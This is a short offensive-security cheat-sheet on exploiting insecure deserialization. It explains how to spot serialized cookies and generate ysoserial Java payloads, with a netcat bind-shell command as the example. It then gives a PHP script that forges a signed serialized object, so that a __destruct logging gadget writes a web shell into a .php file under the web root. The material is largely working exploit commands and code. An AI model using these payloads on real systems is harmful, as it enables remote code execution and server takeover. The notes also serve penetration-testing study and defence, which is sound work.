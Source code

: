 ### When a cookie appears to be b64 - decode in burp (to get hex output) and look for nullbytes in the string, this is a good indication that the object is serialized  
 ** Once you run through the steps to generate the payload, we simply replace the serialized cookie with our payload
 
### `ysoserial` usage  
 ** Either identify exactly which library is available OR run through each payload  
 ** Base 64 encode your output, so pipe into base64 `<ysoserial and args> | base64`  
 ** `java -jar ysoserial.jar <payload type> <command>` EG `java -jar ysoserial.jar Spring1 'nc -l -p 3443 -e /bin/sh'`  
 
### Functions to look for in source code as a trampoline gadget to jump to from `unserialize` function
 ** `__wakeup`
 ** `__destruct` - works because of how the below code writes to file - we can control what goes in there:
 ```
 function __destruct() {
    \/\/ Loogging access 
    $fd = fopen($this->logfile, 'a'); 
    fwrite($fd, $_GET['action'].\":\".$this->uuid.' by '.$this->owner.\"\
\");
```
We can see the above code exploited as below, let's say we discovered an LFI that allowed us to obtain the source code used for serialization, thus allowing us to serialize the payload to be executed by `__destruct` 
```
<?php
define('KEY', "ooghie1Z Fae8aish OhT3fie6 Gae2aiza");

function sign($data) {
  return hash_hmac('md5', $data, KEY);
}
function tokenize($user) {
    $token = urlencode(base64_encode(serialize($user))); 
    $token.= "--".sign($token); 
    return $token;
}
class File {
  public $owner,$uuid, $content; //change to public $owner,$uuid='<?php system($_GET["c"]);?>';
  public $logfile = "/var/www/logs/application.log"; //change to public $logfile = "/var/www/zzz.php
}
echo tokenize(new File());
?>
```
The above spits out a token when ran which we can then send in a request to the server to be deserialized - we need to be careful that we send to the correct endpoint to ensure correct handling.
